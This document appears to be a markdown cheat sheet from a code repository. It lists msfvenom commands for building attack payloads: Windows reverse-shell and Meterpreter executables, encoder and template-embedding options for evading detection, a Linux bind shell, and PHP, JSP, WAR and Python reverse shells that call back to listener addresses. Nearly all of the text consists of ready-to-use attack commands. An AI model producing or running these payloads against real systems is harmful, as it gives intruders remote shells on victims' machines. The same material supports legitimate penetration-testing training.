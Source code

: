 # msfvenom

Short cut on some shellcode creations:

- ```msfvenom -l payloads```
- ```EXITFUNC=thread, SEH, process, none```
- ```–e x86/shikata_ga_nai, generic/none```
- ```-i 4``` (Iterations)
- ```-x /directory/notepad.exe``` (Embedded)
- ```-f war, exe, c, php, py, asp, raw```
- ```-p / --platform```
- ```--arch, -a x86 x86_64```


- Windows
  - ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f js_le``` (Unicode)
  - ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f c``` (C format)
  - ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f c -b "\x00"``` (Encoded C)
  - ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe -o shell_reverse.exe```
  - ```msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.5 LPORT=443 -f exe -o naughty.exe``` (Multi-handler)
  
- Linux
  - ```msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00"``` (Bind 32 bit)
  
- Web
  - ```msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php```
  - ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp```
  - ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war```
  
- Script
  - ```msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.1 LPORT=443 -f raw > shell.py```
  
  
Useful Links:
- http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/
- https://www.aboureada.com/shells/2017/12/17/shells.html
